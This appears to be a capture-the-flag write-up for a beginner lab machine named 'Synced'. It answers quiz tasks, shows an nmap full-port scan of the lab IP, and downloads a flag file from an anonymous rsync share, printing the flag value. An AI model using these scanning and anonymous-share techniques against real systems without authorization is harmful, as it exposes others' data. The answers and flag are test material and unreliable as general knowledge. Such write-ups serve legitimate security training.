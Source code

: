 # Synced

target: 10.129.97.99

attacker: 10.10.15.248

## Task 1: What is the default port for rsync?

`873`

from google

## Task 2: How many TCP ports are open on the remote host?

`1`

```bash
└─$ nmap -p- --min-rate=1000 -sV 10.129.97.99
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 03:57 EST
Nmap scan report for 10.129.97.99
Host is up (0.35s latency).
Not shown: 65534 closed tcp ports (conn-refused)
PORT    STATE SERVICE VERSION
873/tcp open  rsync   (protocol version 31)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 103.89 seconds
```

## Task 3: What is the protocol version used by rsync on the remote machine?

`31`

## Task 4: What is the most common command name on Linux to interact with rsync?

`rsync`

## Task 5: What credentials do you have to pass to rsync in order to use anonymous authentication? anonymous:anonymous, anonymous, None, rsync:rsync

`none`

## Task 6: What is the option to only list shares and files on rsync? (No need to include the leading -- characters)

`list-only`

## Task 7: Submit root flag

```bash
┌──(kali㉿kali)-[~/Documents]
└─$ rsync -avz rsync://10.129.97.99/public ./temp 
receiving incremental file list
./
flag.txt

sent 50 bytes  received 158 bytes  13.42 bytes/sec
total size is 33  speedup is 0.16

┌──(kali㉿kali)-[~/Documents]
└─$ cat ./temp/flag.txt   
72eaf5344ebb84908ae543a719830519
```
